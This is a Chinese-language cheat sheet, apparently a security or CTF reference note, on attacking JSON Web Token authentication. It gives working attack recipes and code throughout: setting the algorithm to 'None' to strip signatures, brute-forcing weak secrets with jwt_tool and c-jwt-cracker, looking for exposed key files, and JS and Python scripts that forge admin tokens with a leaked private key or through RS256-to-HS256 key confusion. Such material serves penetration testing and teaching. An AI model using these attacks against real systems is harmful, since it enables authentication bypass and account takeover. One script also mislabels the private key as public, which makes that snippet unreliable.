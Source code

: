 # JWT(JSON Web Tokens)

在线工具：[JSON Web Tokens - jwt.io](https://jwt.io/)

本地工具：[[GitHub - ticarpi/jwt_tool: :snake: A toolkit for testing, tweaking and cracking JSON Web Tokens](https://github.com/ticarpi/jwt_tool)](https://github.com/ticarpi/jwt_tool)

三个部分组成
- Header
- Payload
- Signature
形式：xxxxx.yyyyy.zzzzz

```
HEADER:ALGORITHM & TOKEN TYPE
{
  "alg": "None",
  "typ": "jwt"
}

PAYLOAD:DATA
[
  {
    "iss": "admin",
    "iat": 1689410770,
    "exp": 1689417970,
    "nbf": 1689410770,
    "sub": "user",
    "jti": "f9bb22e3f645b6d8cd37307ff1349306"
  }
]

VERIFY SIGNATURE

签名一般会变
```

## 无签名认证时，可以先调为HS256加密算法进行JWT
```

当有签名时，可将 Header 中的加密算法改为 None（JWT 支持将算法设定为 “None”。如果“alg” 字段设为“ None”，那么签名会被置空，这样任何 token 都是有效的）

改payload为:header + '.' + payload + '.'（注意最后的点）

直接用base64改即可
```

## 弱密码利用工具爆破获得密钥 
```
c-jwt-cracker

./jwtcrack xxx


jwt_tool.py

python3 jwt_tool.py xxx -C -d jwt-common.txt
```

```
RS256 是使用 RSA 私钥进行签名，使用 RSA 公钥进行验证,
HS256 使用同一个「secret_key」进行签名与验证（对称加密）
ES256 和 RS256 一样，都使用私钥签名，公钥验证

可以尝试浏览器目录是否有public.key 和 private.key
```

## 当知道私钥时，可以通过RS2565构造jwt
```
js脚本
const jwt = require('jsonwebtoken');
var fs = require('fs');
var privateKey = fs.readFileSync('private.key');
var token = jwt.sign({ user: 'admin' }, privateKey, { algorithm: 'RS256' });
console.log(token)

python脚本：
import jwt  
public = open('private.key', 'r').read()  
payload={"user":"admin"}  
print(jwt.encode(payload, key=public, algorithm='RS256'))
# 需安装pyjwt库
```

## 当只知道公钥时

```
可以通过HS256构造jwt（如果将算法从RS256改为HS256，则后端代码将使用公钥作为密钥，然后使用HS256算法验证签名）

js脚本
const jwt = require('jsonwebtoken');
var fs = require('fs');
var privateKey = fs.readFileSync('public.key');
var token = jwt.sign({ user: 'admin' }, privateKey, { algorithm: 'HS256' });
console.log(token)
```

